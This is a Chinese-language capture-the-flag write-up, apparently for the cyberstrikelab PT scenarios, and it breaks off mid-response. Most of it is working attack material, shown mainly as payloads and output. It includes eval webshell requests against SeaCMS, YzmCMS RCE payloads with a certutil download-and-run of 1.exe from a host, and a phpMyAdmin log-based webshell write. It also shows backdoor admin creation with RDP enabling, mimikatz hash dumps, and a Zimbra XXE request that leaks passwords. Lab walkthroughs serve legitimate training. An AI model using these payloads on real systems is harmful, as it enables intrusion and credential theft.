# cyberstrikelab—综合场景PT系列-先知社区

> **来源**: https://xz.aliyun.com/news/16940  
> **文章ID**: 16940

---

# cyberstrikelab—综合场景PT系列

# PT-1

打开是海洋cms，版本为12.09

存在前台sql注入和后台RCE

<https://www.cnblogs.com/0kooo-yz/p/18348576>

因为后台有路径随机化，猜测一下是cslab



经过测试发现账号密码都是cslab

登录成功，直接打Nday，抓包

```
POST /cslab/admin_notify.php?action=set HTTP/1.1
Host: 10.0.0.68
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cookie: PHPSESSID=ghdopttg3ds0bc7saial96leo3
Referer: http://10.0.0.68/cslab/admin_notify.php
Accept-Language: zh-CN,zh;q=0.9
Origin: http://10.0.0.68
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Cache-Control: max-age=0
Content-Length: 29

notify1=%22%3B%40eval%28%24_POST%5B1%5D%29%3B%22&notify2=1&notify3=1
```



连接成功

然后权限比较低，需要提权，使用BadPotato.exe上线Vshell



抓取hash即可



# PT-2

[https://github.com/wy876/POC/blob/main/YzmCMS/YzmCMS%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8pay\_callback%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C.md](https://github.com/wy876/POC/blob/main/YzmCMS/YzmCMS接口存在pay_callback远程命令执行.md)

直接打payload

```
out_trade_no[0]=eq&out_trade_no[1]=1&out_trade_no[2]=phpinfo
```



本地起一个http服务，上线Vshell

```
out_trade_no[0]=eq&out_trade_no[1]=whoami&out_trade_no[2]=system
out_trade_no[0]=eq&out_trade_no[1]=certutil -urlcache -split -f http://172.16.233.2/1.exe 1.exe&out_trade_no[2]=system
out_trade_no[0]=eq&out_trade_no[1]=1.exe&out_trade_no[2]=system
```





```
go-ctf{d0cc4f1c-b90f-eb06-6362-52601b8bf208}
```



烂土豆提权



# PT-4

## 信息收集





```
E:\Tool\天狐渗透工具箱-社区版V1.1\gui_scan\dirsearch>python3 dirsearch.py -u http://10.0.0.3/

  _|. _ _  _  _  _ _|_    v0.4.3 by 鹏组安全
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11714

Output File: E:\Tool\天狐渗透工具箱-社区版V1.1\gui_scan\dirsearch\reports\http_10.0.0.3\__25-02-17_19-08-51.txt

Target: http://10.0.0.3/

[19:08:51] Starting:
[19:08:54] 403 -  211B  - /%3f/
[19:08:54] 403 -  215B  - /%C0%AE%C0%AE%C0%AF
[19:08:54] 403 -  210B  - /%ff
[19:08:56] 403 -  220B  - /.ht_wsr.txt
[19:08:56] 403 -  223B  - /.htaccess.bak1
[19:08:56] 403 -  223B  - /.htaccess.orig
[19:08:56] 403 -  225B  - /.htaccess.sample
[19:08:56] 403 -  223B  - /.htaccess.save
[19:08:56] 403 -  224B  - /.htaccess_extra
[19:08:56] 403 -  223B  - /.htaccess_orig
[19:08:56] 403 -  221B  - /.htaccess_sc
[19:08:56] 403 -  221B  - /.htaccessBAK
[19:08:56] 403 -  222B  - /.htaccessOLD2
[19:08:56] 403 -  221B  - /.htaccessOLD
[19:08:56] 403 -  214B  - /.html
[19:08:56] 403 -  213B  - /.htm
[19:08:56] 403 -  223B  - /.htpasswd_test
[19:08:56] 403 -  219B  - /.htpasswds
[19:08:56] 403 -  220B  - /.httr-oauth
[19:09:00] 301 -  226B  - /a  ->  http://10.0.0.3/a/
[19:09:00] 301 -  226B  - /A  ->  http://10.0.0.3/A/
[19:09:08] 301 -  231B  - /assets  ->  http://10.0.0.3/assets/
[19:09:08] 200 -  316B  - /assets/
[19:09:14] 200 -    2KB - /data/
[19:09:14] 301 -  229B  - /data  ->  http://10.0.0.3/data/
[19:09:14] 200 -    3B  - /data/cache/
[19:09:14] 200 -    3B  - /data/sessions/
[19:09:17] 200 -    1KB - /favicon.ico
[19:09:19] 200 -  796B  - /images/
[19:09:19] 301 -  231B  - /images  ->  http://10.0.0.3/images/
[19:09:20] 301 -  232B  - /include  ->  http://10.0.0.3/include/
[19:09:20] 200 -    5KB - /include/
[19:09:20] 403 -  225B  - /index.php::$DATA
[19:09:20] 301 -  232B  - /install  ->  http://10.0.0.3/install/
[19:09:20] 301 -  232B  - /Install  ->  http://10.0.0.3/Install/
[19:09:20] 301 -  232B  - /INSTALL  ->  http://10.0.0.3/INSTALL/
[19:09:20] 200 -    3B  - /install/
[19:09:23] 301 -  226B  - /m  ->  http://10.0.0.3/m/
[19:09:24] 301 -  231B  - /member  ->  http://10.0.0.3/member/
[19:09:24] 200 -    5KB - /member/login.php
[19:09:24] 200 -    5KB - /member/
[19:09:28] 301 -  235B  - /phpmyadmin  ->  http://10.0.0.3/phpmyadmin/
[19:09:28] 301 -  235B  - /phpMyAdmin  ->  http://10.0.0.3/phpMyAdmin/
[19:09:29] 200 -    2KB - /phpmyadmin/README
[19:09:29] 200 -    4KB - /phpmyAdmin/
[19:09:29] 200 -   32KB - /phpmyadmin/ChangeLog
[19:09:29] 200 -    4KB - /phpMyadmin/
[19:09:29] 200 -    4KB - /phpMyAdmin/
[19:09:29] 301 -  229B  - /plus  ->  http://10.0.0.3/plus/
[19:09:30] 200 -    4KB - /phpmyadmin/index.php
[19:09:30] 200 -    4KB - /phpmyadmin/
[19:09:30] 200 -    4KB - /phpMyAdmin/index.php
[19:09:32] 200 -  505B  - /robots.txt
[19:09:33] 200 -    5KB - /shell.php
[19:09:35] 301 -  232B  - /special  ->  http://10.0.0.3/special/
[19:09:37] 301 -  233B  - /templets  ->  http://10.0.0.3/templets/
[19:09:38] 200 -    4KB - /tags.php
[19:09:38] 403 -  225B  - /Trace.axd::$DATA
[19:09:39] 200 -    3B  - /uploads/
[19:09:39] 301 -  232B  - /uploads  ->  http://10.0.0.3/uploads/
[19:09:41] 403 -  226B  - /web.config::$DATA

Task Completed
```

## 漏洞发现

扫出phpmyadmin 页面。

```
当拿到phpmyadin的站点后，我一般会尝试一下几种攻击手法：
1、通过弱口令进入后台，尝试into outfile写入一句话
条件：(1)有写的权限    (2)知道web绝对路径    (3)web路径可写(一般upload目录可写)
2、全局日志getshell
3、慢查询日志getshell
4、phpmyadmin文件包含漏洞getshell(包含session文件、CVE历史漏洞等等)
下面随机列举出几个常见的路径，仅供参考...
session文件一般路径：
1）可通过phpinfo的save_path进行查看
2）Linux：
/var/lib/php/sessions/sess_你的session
/tmp/sessions/sess_你的session
/tmp/sessions/sessions/sess_你的session
3）Phpstudy：/phpStudy/PHPTutorial/tmp/tmp/sess_你的session
```

爆破出弱口令 root cyberstrikelab

## 漏洞利用

### 看是否可以写入文件

```
mysql	into写入文件：
使用需看要secure_file_priv的值。
    value为“null”时，不允许读取任意文件
    value为其余路径时，表示该路径可以读写文件
    value为“空”时，允许读取任意文件

用show global variables like '%secure%' 命令查看
```



```
值为NULL不可写入文件
要想修改Value值只能通过配置文件mysql.ini修改,这条路行不通.....
```

### 用日志写入木马getshell

```
1.查看日志功能是否开启
    show global variables like '%general%'
2.未开启的话设置为 on
    set global general_log='ON'
```



通过探针找到根路径



```
3.开启后将日志文件的存储位置改为可访问到的目录， 根目录即可
    set global general_log_file = 'C:/WWW/2.php'
4.执行下边一句话木马 
    数据库将会将查询语句保存在日志文件中
    SELECT '<?php $a="~+d()"^"!{+{}";$b=${$a}["a"];eval("".$b);?>'
5.写入成功后 使用蚁剑连接
```



查看flag，添加用户开启3389

```
C:\> type flag.txt
go-flag{F635D478-902B-413C-B751-08F6E8BCD535} 
C:\> net user hack01 1324@cbD /add
命令成功完成。
 
C:\> net localgroup Administrators hack01 /add
命令成功完成。
 
C:\> REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

上去抓hash

```
.#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::logonpasswords

Authentication Id : 0 ; 3791779 (00000000:0039dba3)
Session           : RemoteInteractive from 2
User Name         : hack01
Domain            : WIN-CMET1BTTSGN
Logon Server      : WIN-CMET1BTTSGN
Logon Time        : 2025/2/17 11:48:39
SID               : S-1-5-21-3473251494-3458981874-1915392983-1000
    msv :
     [00000005] Primary
     * Username : hack01
     * Domain   : WIN-CMET1BTTSGN
     * NTLM     : c157e440a12221bf1facadd768c904b4
     * SHA1     : 97fa0a91687d085a5dc0d4ef507a3210d6132030
    tspkg :
    wdigest :
     * Username : hack01
     * Domain   : WIN-CMET1BTTSGN
     * Password : (null)
    kerberos :
     * Username : hack01
     * Domain   : WIN-CMET1BTTSGN
     * Password : (null)
    ssp :
    credman :

Authentication Id : 0 ; 3791635 (00000000:0039db13)
Session           : RemoteInteractive from 2
User Name         : hack01
Domain            : WIN-CMET1BTTSGN
Logon Server      : WIN-CMET1BTTSGN
Logon Time        : 2025/2/17 11:48:39
SID               : S-1-5-21-3473251494-3458981874-1915392983-1000
    msv :
     [00000005] Primary
     * Username : hack01
     * Domain   : WIN-CMET1BTTSGN
     * NTLM     : c157e440a12221bf1facadd768c904b4
     * SHA1     : 97fa0a91687d085a5dc0d4ef507a3210d6132030
    tspkg :
    wdigest :
     * Username : hack01
     * Domain   : WIN-CMET1BTTSGN
     * Password : (null)
    kerberos :
     * Username : hack01
     * Domain   : WIN-CMET1BTTSGN
     * Password : (null)
    ssp :
    credman :

Authentication Id : 0 ; 3743812 (00000000:00392044)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/2/17 11:48:37
SID               : S-1-5-90-0-2
    msv :
    tspkg :
    wdigest :
     * Username : WIN-CMET1BTTSGN$
     * Domain   : WORKGROUP
     * Password : (null)
    kerberos :
    ssp :
    credman :

Authentication Id : 0 ; 188274 (00000000:0002df72)
Session           : Interactive from 1
User Name         : Administrator
Domain            : WIN-CMET1BTTSGN
Logon Server      : WIN-CMET1BTTSGN
Logon Time        : 2025/2/17 11:27:41
SID               : S-1-5-21-3473251494-3458981874-1915392983-500
    msv :
     [00000005] Primary
     * Username : Administrator
     * Domain   : WIN-CMET1BTTSGN
     * NTLM     : 933a9b5b44dab4530d86d83a6b47b7d1
     * SHA1     : c3e55f8634feec6635faef5eba3b04a9b08e5ed9
    tspkg :
    wdigest :
     * Username : Administrator
     * Domain   : WIN-CMET1BTTSGN
     * Password : (null)
    kerberos :
     * Username : Administrator
     * Domain   : WIN-CMET1BTTSGN
     * Password : (null)
    ssp :
    credman :

Authentication Id : 0 ; 52674 (00000000:0000cdc2)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/2/17 11:27:14
SID               : S-1-5-90-0-1
    msv :
    tspkg :
    wdigest :
     * Username : WIN-CMET1BTTSGN$
     * Domain   : WORKGROUP
     * Password : (null)
    kerberos :
    ssp :
    credman :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : WIN-CMET1BTTSGN$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 2025/2/17 11:27:13
SID               : S-1-5-20
    msv :
    tspkg :
    wdigest :
     * Username : WIN-CMET1BTTSGN$
     * Domain   : WORKGROUP
     * Password : (null)
    kerberos :
     * Username : win-cmet1bttsgn$
     * Domain   : WORKGROUP
     * Password : (null)
    ssp :
    credman :

Authentication Id : 0 ; 24328 (00000000:00005f08)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 2025/2/17 11:27:12
SID               : 
    msv :
    tspkg :
    wdigest :
    kerberos :
    ssp :
    credman :

Authentication Id : 0 ; 3744277 (00000000:00392215)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/2/17 11:48:37
SID               : S-1-5-90-0-2
    msv :
    tspkg :
    wdigest :
     * Username : WIN-CMET1BTTSGN$
     * Domain   : WORKGROUP
     * Password : (null)
    kerberos :
    ssp :
    credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 2025/2/17 11:27:14
SID               : S-1-5-19
    msv :
    tspkg :
    wdigest :
     * Username : (null)
     * Domain   : (null)
     * Password : (null)
    kerberos :
     * Username : (null)
     * Domain   : (null)
     * Password : (null)
    ssp :
    credman :

Authentication Id : 0 ; 52717 (00000000:0000cded)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2025/2/17 11:27:14
SID               : S-1-5-90-0-1
    msv :
    tspkg :
    wdigest :
     * Username : WIN-CMET1BTTSGN$
     * Domain   : WORKGROUP
     * Password : (null)
    kerberos :
    ssp :
    credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : WIN-CMET1BTTSGN$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 2025/2/17 11:27:12
SID               : S-1-5-18
    msv :
    tspkg :
    wdigest :
     * Username : WIN-CMET1BTTSGN$
     * Domain   : WORKGROUP
     * Password : (null)
    kerberos :
     * Username : win-cmet1bttsgn$
     * Domain   : WORKGROUP
     * Password : (null)
    ssp :
    credman :

mimikatz #
```



administrator用户桌面上：右键桌面->个性化，背景选择“幻灯片放映”



# PT-6

连接openvpn，会出现一个172.16.233.2的网络，模拟vps，创建一个1.dtd，本地起http服务

```
<!ENTITY % file SYSTEM "file:../conf/localconfig.xml">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>">
```



抓包

```
POST /Autodiscover/Autodiscover.xml HTTP/1.1
Host: 10.0.0.12
Cookie: ZM_TEST=true
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Priority: u=0, i
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 398


<!DOCTYPE Autodiscover [
        <!ENTITY % dtd SYSTEM "http://172.16.233.2:8000/1.dtd">
        %dtd;
        %all;
        ]>
<Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a">
    <Request>
        <EMailAddress>aaaaa</EMailAddress>

        <AcceptableResponseSchema>&fileContents;</AcceptableResponseSchema>

    </Request>

</Autodiscover>
```

得到

```
HTTP/1.1 503 Requested response schema not available <localconfig>?  <key name="ssl_default_digest">?    <value>sha256</value>?  </key>?  <key name="mailboxd_java_heap_size">?    <value>256</value>?  </key>?  <key name="ssl_allow_mismatched_certs">?    <value>true</value>?  </key>?  <key name="snmp_notify">?    <value>yes</value>?  </key>?  <key name="zimbra_java_home">?    <value>/opt/zimbra/java</value>?  </key>?  <key name="ldap_port">?    <value>389</value>?  </key>?  <key name="mailboxd_keystore">?    <value>/opt/zimbra/mailboxd/etc/keystore</value>?  </key>?  <key name="mailboxd_keystore_password">?    <value>Oj1YctFK</value>?  </key>?  <key name="mailboxd_truststore">?    <value>/opt/zimbra/java/jre/lib/security/cacerts</value>?  </key>?  <key name="av_notify_user">?    <value>admin@mail.cslab.com</value>?  </key>?  <key name="mailboxd_directory">?    <value>/opt/zimbra/mailboxd</value>?  </key>?  <key name="av_notify_domain">?    <value>mail.cslab.com</value>?  </key>?  <key name="zimbra_require_interprocess_secur
Server: nginx
Date: Fri, 14 Feb 2025 03:17:04 GMT
Content-Type: text/html; charset=ISO-8859-1
Connection: close
Cache-Control: must-revalidate,no-cache,no-store
Content-Length: 11967

<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8"/>
<title>Error 503 Requested response schema not available &lt;localconfig&gt;
  &lt;key name="ssl_default_digest"&gt;
    &lt;value&gt;sha256&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="mailboxd_java_heap_size"&gt;
    &lt;value&gt;256&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="ssl_allow_mismatched_certs"&gt;
    &lt;value&gt;true&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="snmp_notify"&gt;
    &lt;value&gt;yes&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="zimbra_java_home"&gt;
    &lt;value&gt;/opt/zimbra/java&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="ldap_port"&gt;
    &lt;value&gt;389&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="mailboxd_keystore"&gt;
    &lt;value&gt;/opt/zimbra/mailboxd/etc/keystore&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="mailboxd_keystore_password"&gt;
    &lt;value&gt;Oj1YctFK&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="mailboxd_truststore"&gt;
    &lt;value&gt;/opt/zimbra/java/jre/lib/security/cacerts&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="av_notify_user"&gt;
    &lt;value&gt;admin@mail.cslab.com&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="mailboxd_directory"&gt;
    &lt;value&gt;/opt/zimbra/mailboxd&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="av_notify_domain"&gt;
    &lt;value&gt;mail.cslab.com&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="zimbra_require_interprocess_security"&gt;
    &lt;value&gt;1&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="zimbra_gid"&gt;
    &lt;value&gt;995&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="ldap_amavis_password"&gt;
    &lt;value&gt;rhqkAlU5n_&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="ldap_url"&gt;
    &lt;value&gt;ldap://mail.cslab.com:389&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="ldap_starttls_supported"&gt;
    &lt;value&gt;1&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="smtp_source"&gt;
    &lt;value&gt;admin@mail.cslab.com&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="ssl_allow_untrusted_certs"&gt;
    &lt;value&gt;false&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="zimbra_user"&gt;
    &lt;value&gt;zimbra&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="ldap_replication_password"&gt;
    &lt;value&gt;rhqkAlU5n_&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="postfix_setgid_group"&gt;
    &lt;value&gt;postdrop&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="zimbra_mysql_password"&gt;
    &lt;value&gt;i.OURb7v4t.oE_ttiws_9dcYz2&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="smtp_notify"&gt;
    &lt;value&gt;yes&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="ldap_postfix_password"&gt;
    &lt;value&gt;rhqkAlU5n_&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="mysql_root_password"&gt;
    &lt;value&gt;P4YtmUFaty8FlD3a7DrqiEXdURMwVZf0&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="mailboxd_server"&gt;
    &lt;value&gt;jetty&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="ldap_bes_searcher_password"&gt;
    &lt;value&gt;rhqkAlU5n_&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="zimbra_mysql_connector_maxActive"&gt;
    &lt;value&gt;100&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="ldap_nginx_password"&gt;
    &lt;value&gt;rhqkAlU5n_&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="ldap_master_url"&gt;
    &lt;value&gt;ldap://mail.cslab.com:389&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="zimbra_ldap_password"&gt;
    &lt;value&gt;rhqkAlU5n_&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="snmp_trap_host"&gt;
    &lt;value&gt;mail.cslab.com&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="zimbra_zmjava_options"&gt;
    &lt;value&gt;-Xmx256m -Dhttps.protocols=TLSv1,TLSv1.1,TLSv1.2 -Djdk.tls.client.protocols=TLSv1,TLSv1.1,TLSv1.2 -Djava.net.preferIPv4Stack=true&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="ldap_accesslog_maxsize"&gt;
    &lt;value&gt;18238930944&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="smtp_destination"&gt;
    &lt;value&gt;admin@mail.cslab.com&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="zimbra_mail_service_port"&gt;
    &lt;value&gt;8080&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="mysql_bind_address"&gt;
    &lt;value&gt;127.0.0.1&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="mailboxd_truststore_password"&gt;
    &lt;value&gt;changeit&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="ldap_host"&gt;
    &lt;value&gt;mail.cslab.com&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="zmtrainsa_cleanup_host"&gt;
    &lt;value&gt;true&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="antispam_mysql_host"&gt;
    &lt;value&gt;127.0.0.1&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="zimbra_zmprov_default_to_ldap"&gt;
    &lt;value&gt;false&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="zimbra_uid"&gt;
    &lt;value&gt;997&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="mailboxd_java_options"&gt;
    &lt;value&gt;-server -Dhttps.protocols=TLSv1,TLSv1.1,TLSv1.2 -Djdk.tls.client.protocols=TLSv1,TLSv1.1,TLSv1.2 -Djava.awt.headless=true -Dsun.net.inetaddr.ttl=${networkaddress_cache_ttl} -Dorg.apache.jasper.compiler.disablejsr199=true -XX:+UseConcMarkSweepGC -XX:PermSize=128m -XX:MaxPermSize=350m -XX:SoftRefLRUPolicyMSPerMB=1 -verbose:gc -XX:+PrintGCDetails -XX:+PrintGCDateStamps -XX:+PrintGCApplicationStoppedTime -XX:-OmitStackTraceInFastThrow -Xloggc:/opt/zimbra/log/gc.log -XX:-UseGCLogFileRotation -XX:NumberOfGCLogFiles=20 -XX:GCLogFileSize=4096K -Djava.net.preferIPv4Stack=true&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="ldap_is_master"&gt;
    &lt;value&gt;true&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="zimbra_server_hostname"&gt;
    &lt;value&gt;mail.cslab.com&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="ldap_root_password"&gt;
    &lt;value&gt;rhqkAlU5n_&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="postfix_mail_owner"&gt;
    &lt;value&gt;postfix&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="zimbra_ldap_userdn"&gt;
    &lt;value&gt;uid=zimbra,cn=admins,cn=zimbra&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="ldap_db_maxsize"&gt;
    &lt;value&gt;18238930944&lt;/value&gt;
  &lt;/key&gt;
&lt;/localconfig&gt;
</title>

</head>

<body><h2>HTTP ERROR 503</h2>

<p>Problem accessing /service/autodiscover/Autodiscover.xml. Reason:
<pre>    Requested response schema not available &lt;localconfig&gt;
  &lt;key name="ssl_default_digest"&gt;
    &lt;value&gt;sha256&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="mailboxd_java_heap_size"&gt;
    &lt;value&gt;256&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="ssl_allow_mismatched_certs"&gt;
    &lt;value&gt;true&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="snmp_notify"&gt;
    &lt;value&gt;yes&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="zimbra_java_home"&gt;
    &lt;value&gt;/opt/zimbra/java&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="ldap_port"&gt;
    &lt;value&gt;389&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="mailboxd_keystore"&gt;
    &lt;value&gt;/opt/zimbra/mailboxd/etc/keystore&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="mailboxd_keystore_password"&gt;
    &lt;value&gt;Oj1YctFK&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="mailboxd_truststore"&gt;
    &lt;value&gt;/opt/zimbra/java/jre/lib/security/cacerts&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="av_notify_user"&gt;
    &lt;value&gt;admin@mail.cslab.com&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="mailboxd_directory"&gt;
    &lt;value&gt;/opt/zimbra/mailboxd&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="av_notify_domain"&gt;
    &lt;value&gt;mail.cslab.com&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="zimbra_require_interprocess_security"&gt;
    &lt;value&gt;1&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="zimbra_gid"&gt;
    &lt;value&gt;995&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="ldap_amavis_password"&gt;
    &lt;value&gt;rhqkAlU5n_&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="ldap_url"&gt;
    &lt;value&gt;ldap://mail.cslab.com:389&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="ldap_starttls_supported"&gt;
    &lt;value&gt;1&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="smtp_source"&gt;
    &lt;value&gt;admin@mail.cslab.com&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="ssl_allow_untrusted_certs"&gt;
    &lt;value&gt;false&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="zimbra_user"&gt;
    &lt;value&gt;zimbra&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="ldap_replication_password"&gt;
    &lt;value&gt;rhqkAlU5n_&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="postfix_setgid_group"&gt;
    &lt;value&gt;postdrop&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="zimbra_mysql_password"&gt;
    &lt;value&gt;i.OURb7v4t.oE_ttiws_9dcYz2&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="smtp_notify"&gt;
    &lt;value&gt;yes&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="ldap_postfix_password"&gt;
    &lt;value&gt;rhqkAlU5n_&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="mysql_root_password"&gt;
    &lt;value&gt;P4YtmUFaty8FlD3a7DrqiEXdURMwVZf0&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="mailboxd_server"&gt;
    &lt;value&gt;jetty&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="ldap_bes_searcher_password"&gt;
    &lt;value&gt;rhqkAlU5n_&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="zimbra_mysql_connector_maxActive"&gt;
    &lt;value&gt;100&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="ldap_nginx_password"&gt;
    &lt;value&gt;rhqkAlU5n_&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="ldap_master_url"&gt;
    &lt;value&gt;ldap://mail.cslab.com:389&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="zimbra_ldap_password"&gt;
    &lt;value&gt;rhqkAlU5n_&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="snmp_trap_host"&gt;
    &lt;value&gt;mail.cslab.com&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="zimbra_zmjava_options"&gt;
    &lt;value&gt;-Xmx256m -Dhttps.protocols=TLSv1,TLSv1.1,TLSv1.2 -Djdk.tls.client.protocols=TLSv1,TLSv1.1,TLSv1.2 -Djava.net.preferIPv4Stack=true&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="ldap_accesslog_maxsize"&gt;
    &lt;value&gt;18238930944&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="smtp_destination"&gt;
    &lt;value&gt;admin@mail.cslab.com&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="zimbra_mail_service_port"&gt;
    &lt;value&gt;8080&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="mysql_bind_address"&gt;
    &lt;value&gt;127.0.0.1&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="mailboxd_truststore_password"&gt;
    &lt;value&gt;changeit&lt;/value&gt;
